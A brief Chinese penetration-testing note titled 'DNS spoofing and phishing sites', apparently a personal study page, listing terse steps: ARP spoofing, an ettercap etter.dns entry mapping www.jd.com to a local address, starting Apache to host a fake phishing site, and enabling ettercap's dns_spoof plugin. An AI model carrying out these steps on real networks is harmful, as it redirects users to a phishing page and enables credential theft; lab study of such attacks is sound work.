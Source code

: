 ```yaml
---
title: DNS欺骗与钓鱼网站
date: 2020-09-10
categories:
- PenTest
---
```

1.ARP欺骗攻击<br>

2.伪装DNS服务器(正向解析)<br>
* vim /etc/ettercap/etter.dns`
* www.jd.com A 10.1.1.2`
* A 10.1.1.2`
* www.jd.com PTR 10.1.1.2`
* PTR 10.1.1.2`

3.开Apache发布一个虚假的钓鱼网站<br>
systemctl start apache2<br>
netstat -antpl<br>
cd /var/www/html/<br>

4.ettercap<br>
add to target<br>
Plugins=>dns_spoof<br>
